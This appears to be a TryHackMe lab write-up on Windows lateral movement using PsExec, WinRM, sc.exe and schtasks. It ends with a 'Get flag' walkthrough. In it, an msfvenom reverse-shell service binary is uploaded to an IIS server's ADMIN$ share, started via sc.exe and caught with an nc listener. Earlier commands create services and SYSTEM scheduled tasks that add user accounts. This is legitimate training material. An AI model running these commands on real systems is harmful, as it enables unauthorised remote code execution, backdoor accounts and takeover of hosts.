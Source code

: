 # Spawning processes remotely

| Remote Session           | Port(s)                  | Requirements                               |
|--------------------------|--------------------------|--------------------------------------------|
| PsExec                   | TCP/445                  | Account must be an administrator           |
| WinRM over HTTP          | TCP/5985                 | Group Memberships: Remote Management Users |
| WinRM over HTTPS         | TCP/5986                 | Group Memberships: Remote Management Users |
| DCE/RPC                  | TCP/135, TCP/49152-65535 | Group Memberships: Administrators          |
| RPC over SMB Named Pipes | TCP/445                  | Group Memberships: Administrators          |
| RPC over SMB Named Pipes | TCP/139                  | Group Memberships: Administrators          |

## PsExec

| ![PsExex Auth Flow](../../_static/images/psexec.png) |
|:--:|
| Authentication workflow |

1. Connect to `Admin$` share and upload a service binary `psexesvc.exe`.
2. Connect to the service control manager to create and run a service named `PSEXESVC` and associate the service 
binary with `C:\Windows\psexesvc.exe`.
3. Create some named pipes to handle `stdin`/`stdout`/`stderr`.

Start a remote command prompt:

    .\psexec.exe \\<IP target> -u <username> -p <password> -i cmd.exe

## WinRM

PowerShell:

    $username = 'user.name'
    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)
    $session = New-PSSession -ComputerName target-ip -Credential $credential
    $session | Enter-PSSession

Cleanup:

    $session | Remove-PSSession

A single command:

    $username = 'user.name'
    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)
    Invoke-Command -ComputerName target-ip -Credential -ScriptBlock {Get-ComputerInfo}

## sc.exe

Remote command execution by registering and running services on a host. The service is configured to run a command 
at start up.

| ![RCP](../../_static/images/sc-RPC.png) |
|:--:|
| Try authenticating to the Service Control Manager using RPC first. |

If RPC fails:

| ![SMB](../../_static/images/sc-SMB.png) |
|:--:|
| Try communicating using an SMB named pipe |


Register the dummy service (binpath is the command to run on the host)

    sc.exe \\<IP Target> create <fakeservice> binpath= "net user <username> <password> /add" start= auto

Start the remote service to run the command:

    sc.exe \\<IP Target> start <fakeservice>

Stop and cleanup:

    sc.exe \\<IP Target> stop <fakeservice>
    sc.exe \\<IP Target> delete <fakeservice>

## schtasks

Remote command/payload execution by registering a scheduled task on a host.

Create and run Task:

    schtasks /s target-ip /RU "SYSTEM" /create /tn "Task" /tr "powershell -command 'Get-ComputerInfo'" /sc ONCE /sd 01/01/1970 /st 00:00
    schtasks /s target-ip /run /tn "Task"

Cleanup:

    schtasks /s target-ip /tn "Task" /DELETE /F

## Get flag

Leverage a session on the jump host to deliver a payload to an IIS web server. The payload will connect back to 
the attack machine (Kali VM in my case).

Use the credentials downloaded (see [setup](setup.md)) to ssh into `thmjmp2`:

    ssh <username>@za.tryhackme.com@thmjmp2.za.tryhackme.com

On attack machine, create a service binary payload:

    msfvenom -p windows/shell_reverse_tcp LHOST=<IP address VPN> LPORT=4444 -f exe-service -o iispwn.exe

Use the given credentials to transfer the file to the IIS server:

    smbclient -c 'put iispwn.exe' -U <username> -W ZA '//thmiis.za.tryhackme.com/ADMIN$' <password>

Start a listener to receive the reverse shell from the IIS server:

    sudo nc -lnvp 4444

Use the `ssh` session on `thmjmp2` as reverse shell (no need for runas etc.):

    sc.exe \\thmiis.za.tryhackme.com create pwniis binpath= "%windir%\isspwn.exe" start= auto
    sc.exe \\thmiis.za.tryhackme.com start pwniis

Run the `flag.exe` file on the users desktop on THMIIS.
